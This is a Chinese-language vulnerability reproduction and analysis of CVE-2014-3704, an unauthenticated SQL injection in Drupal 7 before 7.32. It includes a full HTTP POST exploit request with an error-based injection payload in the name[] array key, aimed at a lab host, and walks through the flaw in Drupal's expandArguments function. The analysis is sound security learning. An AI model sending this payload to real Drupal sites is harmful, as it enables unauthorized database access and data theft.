

### CVE-2014-3704 —— SQL注入漏洞
#### 影响范围
7.0 < Drupal < 7.32
#### 漏洞描述
Drupal中存在一处无需认证的SQL注入漏洞，攻击者可以执行任意SQL语句，甚至能执行任意代码。
#### 漏洞复现
当安装完成之后访问页面       
http://192.168.86.138/drupal-7.31/drupal-7.31/?q=node&destination=node
抓包并修改包    
```
POST /?q=node&destination=node HTTP/1.1
Host: 192.168.86.138
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,database()),0)%23]=bob&name[0]=a
```
通过报错注入看到，爆出数据库    
     

#### 漏洞分析
这次的分析我想倒着来，emmm因为我一开始并没有找到网上分析的漏洞点expandArguments函数，也不知道怎么大家分析就到到这个函数了。所以记录一下我复现这个漏洞的思路。      
首先我去看了mysql的日志，在我通过burpsuite传送的poc后。 
开启mysql通用日志的方法：
```
 show variables like '%general%';//可以看到日志是否开启，以及日志所在的位置     
 set global general_log = on;//如果日志关闭，设置为on即打开，日志默认情况下都是关闭，所以基本上每次关机后再要打开日志都需要重新设置一次
```
上述语句是记录了drupal的日志信息：      
    
可以看到我们传入的语句到最后sql语句实现时，对于name[0]其的值为：    
'a' or updatexml(0,concat(0xa,user()),0)#，这里构成了报错注入。  
###### 也就是说我们通过构造名称相同的键值使其解析出错最终实现了我们的攻击。有点像前段时间复现的Couchdb的垂直越权漏洞，也是对同样的键值解析出现不同导致了错误。    
然后我还是没有找到expandArguments函数在哪儿，于是我去查了这个函数是个什么。    
##### Database API 和数据库抽象层
在了解expandArguments函数之前需要先了解：   
Drupal提供了一个数据库抽象层，使得开发者可以使用统一的当时与不同的厂牌的数据库交互。踏实构建在PHP PDO API之上的。   
Drupal的数据库抽象层提供了一种结构化的数据库查询构建方法，他具有安全机制，可以有效防止SQL注入。     

当当！expandArguments函数就是上述的数据库抽象API中的一个函数，他的作用是对输入的数据进行数组展开后再传递给sql语句执行命令。在这个函数里对相同键值的解析出现了错误导致传输的数据为上面所说的报错注入的语句。    
expandArguments函数如下:    
```
protected function expandArguments(&$query, &$args) {
  $modified = FALSE;
 
  // If the placeholder value to insert is an array, assume that we need
  // to expand it out into a comma-delimited set of placeholders.
  foreach (array_filter($args, 'is_array') as $key => $data) {
    $new_keys = array();
    foreach ($data as $i => $value) {
      // This assumes that there are no other placeholders that use the same
      // name.  For example, if the array placeholder is defined as :example
      // and there is already an :example_2 placeholder, this will generate
      // a duplicate key.  We do not account for that as the calling code
      // is already broken if that happens.
      $new_keys[$key . '_' . $i] = $value;
    }
 
    // Update the query with the new placeholders.
    // preg_replace is necessary to ensure the replacement does not affect
    // placeholders that start with the same exact text. For example, if the
    // query contains the placeholders :foo and :foobar, and :foo has an
    // array of values, using str_replace would affect both placeholders,
    // but using the following preg_replace would only affect :foo because
    // it is followed by a non-word character.
    $query = preg_replace('#' . $key . 'b#', implode(', ', array_keys($new_keys)), $query);
 
    // Update the args array with the new placeholders.
    unset($args[$key]);
    $args += $new_keys;
 
    $modified = TRUE;
  }
 
  return $modified;
}
```
name数组就是传到函数中的array，expandArguments会将传递进来的name一层一层的分离。分离后会得到新的数组：  
```
$new_keys[$key . '_' . $i] = $value;
```
最后name被分离为key传输sql语句进行拼接，导致漏洞产生。

#### 思考
现在的sql注入越来越脱离原来传统的sql注入漏洞，很难一眼看到可以注入的地方，多是拼接时会有参数可控情况下，对可控参数的的构造。像最简单对ip的构造，复杂一点的构造可能就需要去找一些其他函数的一些逻辑问题。不过这种对我来说还太难了，只能长期积累遇到过哪些问题，攒攒经验值。


#### 参考文献
https://www.freebuf.com/vuls/47690.html     
https://www.cnblogs.com/zfyouxi/p/4793915.html
